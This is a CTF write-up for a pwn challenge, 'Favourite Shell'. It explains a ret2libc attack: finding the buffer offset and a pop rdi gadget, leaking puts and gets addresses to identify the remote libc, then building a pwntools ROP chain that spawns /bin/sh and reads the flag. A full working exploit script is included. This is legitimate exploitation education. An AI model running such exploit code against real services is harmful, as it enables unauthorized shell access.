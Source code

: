 # [Pwn] Favourite Shell

## ✨ Walkthrough

The challenge *closely resembles* another CTF challenge I encountered, and I found a [detailed write-up](https://github.com/rehackxyz/REUN10N/tree/main/CTF-writeups/2024/OSCTF/pwn-lib_riddle) on it. Please take a look!

Basically, this is a ret2libc challenge but the problem is we don't have access to the actual libc file so what we need to do is **identify what version of libc used by the remote** and then *perform the exploit*.

> *"Screenshots in this write-up may differ from those in the remote challenge due to variations in the virtual machines used. I forgot to save the screenshots during the competition sobsob."*

### Information about the Binary

![img](../images/pwn_1_0.png)

### Part 0 - Finding the Offset and Gadget

Firstly, we need to find the offset so that we could overwrite the RIP. It can be done through debugging using gdb or *you can just use [Ghidra](https://ghidra-sre.org/)* (*work smarter, not harder lol*). In the screenshot below, we can see that the size of the offset is `0x28`.

![img](../images/pwn_1_1.png)

After that, we need to find the `pop rdi` gadget (*the purpose of the gadget will be explained later*). There is a function named `rop` which provide the gadget inside the binary itself, hinting that the chal required basic knowledge of Return Oriented Programming (ROP) for the exploitation. That said, we will use [ROPgadget](https://pypi.org/project/ROPGadget/) to find the address of the gadget. The address is `0x40118d`.

![img](../images/pwn_1_2.png)

### Part 1 – Finding the LIBC Version 

We will use [pwntools](https://pypi.org/project/pwntools/) to leak the address of `puts` and `gets` functions. Inside the binary, we found that it used both functions in `main` function.

> *"plt (Procedure Linkage Table) is a table that redirects function calls to their actual addresses, allowing the binary to resolve external function calls at runtime."*

> *"got (Global Offset Table) stores the actual addresses of external functions, allowing the plt to redirect function calls to their correct locations in memory."*

That said, we can leak the addresses of `puts` and `gets` functions used by the binary through the got table.

```python
from pwn import *
elf = context.binary = ELF("./chal", checksec=False)

# p = process('./chal')
p = remote("IP_ADDR", 5006)

offset = 0x28
pop_rdi = p64(0x40118d)
plt_puts = p64(elf.plt['puts'])
got_puts = p64(elf.got['puts'])
got_gets = p64(elf.got['gets'])
```

In the code snippet shown above, we initialised the variables needed to leak the address. We use `plt_puts` to call the `puts` function to print/leak the address in the terminal, `got_puts` and `got_gets` store the offset address ... it will be used as argument for the `puts` function. 

```python
payload = b'A'*offset
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_gets + plt_puts
payload += p64(elf.sym['main'])

p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()

leaked_puts = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
leaked_gets = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
print("Leaked PUTS:", hex(leaked_puts))
print("Leaked GETS:", hex(leaked_gets))
```

To make the explanation for the payload *simpler*;
1. Fill the buffer with padding.
2. Use `puts` function to leak the actual address of `puts` function, then pop it out from `rdi`.
3. Use `puts` function to leak the actual address of `gets` function, then pop it out from `rdi`.
4. Call the `main` function *to go back lol* and insert our exploit payload *later*.

We received two addresses, `puts` and `gets` function in hexadecimal format. After that, use [libc-database](https://libc.rip/) to identify the libc version by inserting the addresses obtained. Later we found that the remote server use **libc6_2.35-0ubuntu1_amd64.so** so download the libc file for our exploitation. 

### Part 2 – Exploitation

```python
libc = ELF('./libc6_2.35-0ubuntu1_amd64.so')
libc.address = leaked_puts - libc.sym['puts']

rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*offset + rop.chain()
p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()
```

We could find the base address of the libc by subtracting the `leaked puts` with the `actual puts`. After that, locate the address of the shell using ROP and form a ROP chain for exploit. Access gained! Retrieve the flag :)

```python
p.sendline(b'cat flag.txt')
flag = p.recvall(timeout=1).strip()
print(flag.decode())
p.close()
```

## ⚙ Full Script

```python
from pwn import *
elf = context.binary = ELF("./chal", checksec=False)

# p = process('./chal')
p = remote("IP_ADDR", 5006)

offset = 0x28
pop_rdi = p64(0x40118d)
plt_puts = p64(elf.plt['puts'])
got_puts = p64(elf.got['puts'])
got_gets = p64(elf.got['gets'])

# Part 1 - Leaking the Address

payload = b'A'*offset
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_gets + plt_puts
payload += p64(elf.sym['main'])

p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()

leaked_puts = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
leaked_gets = u64(p.recvline().strip()[:6].ljust(8, b'\x00'))
print("Leaked PUTS:", hex(leaked_puts))
print("Leaked GETS:", hex(leaked_gets))

# Part 2 - Actual Exploitation

libc = ELF('./libc6_2.35-0ubuntu1_amd64.so')
libc.address = leaked_puts - libc.sym['puts']

rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*offset + rop.chain()
p.sendlineafter(b'whats your favourite shell?', payload)
p.recvline()
p.recvline()

p.sendline(b'cat flag.txt')
flag = p.recvall(timeout=1).strip()
print(flag.decode())
p.close()
```

![img](../images/pwn_1_3.png)

> *"Once again, screenshots in this write-up may differ from those in the remote challenge due to variations in the virtual machines used. I forgot to save the screenshots during the competition sobsob."*